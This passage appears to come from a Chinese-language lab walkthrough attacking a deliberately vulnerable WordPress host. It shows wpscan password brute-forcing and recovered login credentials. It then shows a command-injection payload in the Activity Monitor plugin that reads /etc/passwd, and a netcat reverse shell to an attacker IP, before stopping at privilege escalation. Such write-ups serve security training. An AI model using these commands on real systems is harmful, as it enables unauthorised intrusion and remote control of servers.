 ```
wpscan –url http://wordy –U username.txt –P passwords.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYG5u05U4Cgm1SHXN6OnfCpiayu0RZ6icpibXibWmonFUbVEmaO61lI1B6fTA/640?wx_fmt=png)

获取到账户名为: mark，密码是: helpdesk01

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGfZXla8gIIce4VH6ibS44zicKWPzdIAtXFBiaCbicYFg6kzMUIiaBtGibGz5A/640?wx_fmt=png)

登录成功

**04 漏洞利用**
-----------

登录后台之后可以看到 `activity monitor`插件，百度了一下，发现这个插件是可以被利用

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGWefybtEH3tL8XszJlKMvwsZicgP9EDmWXpXdHKyotx4EQgicF9zMvseQ/640?wx_fmt=png)

点击 Lookup, 使用 pb 抓包

```
127.0.0.1|cat /etc/passwd
```

直接获取了服务器账户信息

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGT2hAxFOdM1HckoExhNfMR3Mqwl3ItYW7ZuCq6ho6YpeIvF92otRUIA/640?wx_fmt=png)

可以反弹 shell

kill 输入

```
nc -lvvp 1234
```

在 bp 中输入

```
nc -e /bin/sh 192.168.1.116 1234
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGl6yZOpmXF2c6VASLhcQeVdQAPeBPGEibOWicJpgv9602HoSEpL2F8Cog/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MZ82g774DOFNQiawux1CcfYGJEQ2FvrI8JahgI2uLC5M1DveA76nKQr0NvUibyDIetNX9Au6EldRDGw/640?wx_fmt=png)

获取 shell 成功

执行

```
#获取正向的shell
python -c  'import pty;pty.spawn ( "/bin/bash")'
```

**05 提权**
---------
